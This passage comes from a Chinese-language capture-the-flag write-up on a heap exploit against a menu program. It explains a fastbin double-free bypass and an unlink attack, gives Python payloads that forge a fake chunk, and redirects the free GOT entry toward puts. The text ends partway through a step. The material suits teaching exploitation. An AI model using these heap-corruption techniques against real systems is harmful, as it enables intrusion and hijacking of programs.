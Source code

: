 在最下面可以看到這時候 victim 拿到之前放進 smallbin 裡的 第一次 small chunk address，但是他會利用 size 也就是 nb 把 big chunk inuse bit 設成 1。

所以為了避免這個，我們先 `free(small)` again，這樣又可以把 small chunk 的 head 放進 fastbin 裡，這樣在 keep small 時候就可以避免上面事情發生。

在這裡 small 很像是重複 `free` 了兩次，但是因為 fastbin 只會檢查 fasttop 也就是 fastbin list 裡的第一個，因為剛剛在 keep huge 回收 fastbin 時被拿掉了所以可以 bypass double free 的檢查。

這裡 keep small 時輸入的 input 就可以開始偽造 fake chunk 了，payload 如下：

```python
fake_fd = 0x6020d0-0x18
fake_bk = 0x6020d0-0x10
payload = ""
payload += p64(0x0) # previous size not important
payload += p64(0x21) # fake chunk size
payload += p64(fake_fd)
payload += p64(fake_bk)
payload += p64(0x20) # fake previous size for big chunk
```

因為等等會利用 wipe(big) 來進行 unlink 所以這裡我們需要的任意 address 位置就把它設在 `0x6020d0` 也就是 global buffer 上的 small_buf 的位置，才能進行 renew。在這裡利用 payload 把 small chunk 可寫的地方當成另一個 chunk，然後 fake big chunk 的 previous size 這樣他在進行 unlink 才會找到我們偽造的 fd 跟 bk。

7. wipe(big) # trigger unlink

此時 `0x6020d0` 的位置，也就是 small_buf 的位置已經指到 global buffer 上了，後面就是利用 renew 來進行任意位置讀寫

```assembly
0x6020b0:       0x00007f388c24f620      0x0000000000000000
0x6020c0:       0x00000000007fe9d0      0x00007f388c3e4010
0x6020d0:       0x00000000006020b8      0x0000000100000000
0x6020e0:       0x0000000000000001      0x0000000000000000
```

8. renew(small)

payload :

```python
payload = ""
payload += p64(0x0) # padding
payload += p64(free_got) # big_buf
payload += p64(0x0)
payload += p64(0x6020c0) # for write arbitrary
payload += p32(1)*3 # let us be easy to renew
```

在這裡我們把 `big_buf` 指到了 `free` 的 GOT entry，把 `small_buf` 指到了 `&big_buf`，之後好二次寫入，後面的 p32(1)*3 是為了讓 buf inuse 設成 1 才能進行 renew。

9. renew(big) 

接著利用 renew(big) 來把 `free` 的 GOT entry 上得值 hijack 成 call `puts`

payload :
